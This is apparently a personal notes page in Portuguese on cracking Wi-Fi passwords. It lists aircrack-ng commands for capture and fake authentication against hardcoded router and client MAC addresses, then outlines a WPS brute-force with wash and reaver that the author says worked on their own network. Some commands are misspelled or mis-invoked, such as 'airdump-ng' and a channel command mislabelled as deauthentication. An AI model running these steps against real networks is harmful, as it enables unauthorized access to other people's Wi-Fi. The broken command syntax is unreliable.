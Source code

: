 
https://shehackske.medium.com/how-to-hack-wpa-wpa2-wifi-with-reaver-426899cbcf06

```bash
# Vê os pacotes entre roteadores e devices
sudo airdump-ng wlan0mon

# Deautenchicate
airmon-ng start wlan0mon 5 # Define o canal que vai operar!

#
sudo aireplay-ng --fakeauth 30 -a {bssid} -h {macid} wlan0
sudo aireplay-ng --fakeauth 30 -a 98:DA:C4:DD:E4:6C -h 98:39:8E:6B:C1:9B wlan0mon      # Bellini
sudo aireplay-ng --fakeauth 30 -a 70:4F:57:0E:17:58 -h 78:44:76:84:0a:f5 wlan0mon
```

<br>

---


## Tutoriais

### Find wi-fi password using WPS

Seguindo o vídeo [Hack wifi with wps crack using reaver in kali linux 2018.1](https://www.youtube.com/watch?v=5ad8pCbkhOw) vi a possibilidade de descobrir senhas wi-fi de roteadores que usam WPS, sem que seja definido um limite de testes. Outro site detalha outras opções que podem aperfeiçoar o código [**WPS Cracking with Reaver**](https://outpost24.com/blog/wps-cracking-with-reaver).

Passa a passo

1. Colocar o adaptar wifi em monitor mode
2. Com wash, descobrir as redes com WPS na região
3. Com reaver, brutal force wifi

Consegui êxito na minha rede pessoal em 12.424 segundos, ou seja, após ~4 horas.

